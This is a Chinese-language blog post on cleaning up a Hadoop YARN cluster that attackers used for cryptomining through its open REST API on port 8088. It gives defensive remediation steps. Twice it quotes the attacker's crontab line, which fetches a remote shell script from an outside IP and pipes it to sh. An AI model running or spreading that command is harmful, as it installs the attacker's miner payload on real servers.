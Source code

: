 ```yaml
---
layout: post
categories: hadoop yarn hack
title: yarn运莫名其妙的job 导致集群变慢 一直在跑一个用户为dr.who的application
date: 2018-06-21 17:48:51 +0800
description: hadoop mapreduce 任务 莫名其妙的变多了 yarn被黑问题。
keywords: hadoop
---
```



简单介绍一下过程，现在有些人通过 hadoop 开放的restApi进行挖矿，8088 以及 8090 端口。



### 排问题
  * 1. 集群检查

    今天检查Hadoop 服务器发现Yarn上面的job莫名其妙的变多了，而且一直再跑。
    ![](http://zmatsh.b0.upaiyun.com/demos/7422da30-8014-41f6-a922-55f86a3ce252.png)
    经过排查在`/tmp/ /var/tmp` 下面发现了 Java 还有tmp.txt
    内容如下：
    ![](http://zmatsh.b0.upaiyun.com/demos/63c45ec8-bcbd-4fbd-98bb-ee624eb4ea70.png)

    服务器地址:`transfer.sh`

  * 2. 检查 `crontab -l ` 发现了一个莫名其妙的 job
    ```bash
    * * * * * wget -q -O - http://185.222.210.59/cr.sh | sh > /dev/null 2>&1
    ```


### 解决办法

   * 1，通过查看占用cpu高得进程，kill掉此进程

   * 2，检查/tmp和/var/tmp目录，删除java、ppc、w.conf等异常文件

   * 3 ，通过crontab -l 查看有一个* * * * * wget -q -O - http://185.222.210.59/cr.sh | sh > /dev/null 2>&1任务，删除此任务

   * 4，排查YARN日志，确认异常的application，删除处理

   * 5 再通过top验证看是否还有高cpu进程，如果有，kill掉，没有的话应该正常了。

   * 6 注意：YARN提供有默认开放在8088和8090的REST API（默认前者）允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当，REST API将会开放在公网导致未授权访问的问题，那么任何黑客则就均可利用其进行远程命令执行，从而进行挖矿等行为，黑客直接利用开放在8088的REST API提交执行命令，来实现在服务器内下载执行.sh脚本，从而再进一步下载启动挖矿程序达到挖矿的目的，因此注意并启用Kerberos认证功能，禁止匿名访问修改8088端口





#### 感谢老铁登科

转载请注明出处，本文采用 [CC4.0](http://creativecommons.org/licenses/by-nc-nd/4.0/) 协议授权
